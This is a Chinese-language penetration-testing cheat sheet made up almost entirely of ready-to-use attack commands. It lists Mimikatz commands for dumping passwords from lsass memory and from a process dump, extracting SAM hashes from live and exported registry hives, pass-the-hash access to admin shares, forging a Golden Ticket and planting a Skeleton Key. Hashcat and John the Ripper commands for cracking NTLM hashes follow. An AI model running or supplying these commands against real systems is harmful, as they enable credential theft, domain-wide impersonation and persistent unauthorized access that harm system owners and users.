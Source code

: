 Mimikatz
(1)在线获取lsass进程中的密码
privilege::debug
sekurlsa::logonPasswords full
(2)离线获取
procdump.exe -accepteula -64 lsass.exe lsass.dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
(3)在线读取sam数据库获取Hash
privilege::debug
token::elevate
lsadump::sam
(4)离线读取sam数据库获取Hash
使用reg命令导出注册表
reg save hklm\\sam c:\sam.hive
reg save hklm\\system c:\system.hive
读取Hash:
privilege::debug
lsadump::sam /system:system.hive /sam:sam.hive
(5)Pass-The-Hash攻击
privilege::debug
sekurlsa::pth /user:Administrator /domain:. /ntlm:xxxx dir \\\\192.168.xxxx.xxx\\c$
(6)Golden Ticket
privilege::debug
kerberos::golden /user:admin /domain:pentestlab.com
/sid:xxx /krbtgt:xxx /admin:admin.tck /ptt dir \\\\dc.pentestlab.cvom\\c$
(7)Skeleton Key
privilege::debug
misc::skeleton
(8)获取系统进程列表
process::list

# **HashCat**

`hashcat -m 1000 -a 0 --force 31d6cfe0d16ae931b73c59d7e0c089c0 pass.txt`		
	`-m 指定模式 1000为ntlm v1 5600位ntlm v2`
	`-a 指定破解模式 0位字典破解`
	`然后后面为ntlm hash和字典`



`hashcat -m 1000 -a 3 --force 31d6cfe0d16ae931b73c59d7e0c089c0 ?l?l?l?l?l?l?l`
`?l              代表小写字母`
`?u              代表大写字母`
`?d              代表数字`
`?s              代表特殊字符`
`?a              代表大小写字母、数字以及特殊字符`  
`?b              0x00-0xff` 

`0    straight                                字典破解`
`1    combination                             将字典中密码进行组合（1 2 ——> 11 22 12 21）`
`3    brute-force                             使用指定掩码破解`
`6    Hybrid Wordlist + Mask                  字典+掩码破解`
`7    Hybrid Mask  + Wordlist                 掩码+字典破解`

`john --wordlist=/path/to/wordlist.txt --format=NT hashes.txt`
`john --mask=?l?l?l?l?l?l?d?d --format=NT hashes.txt`
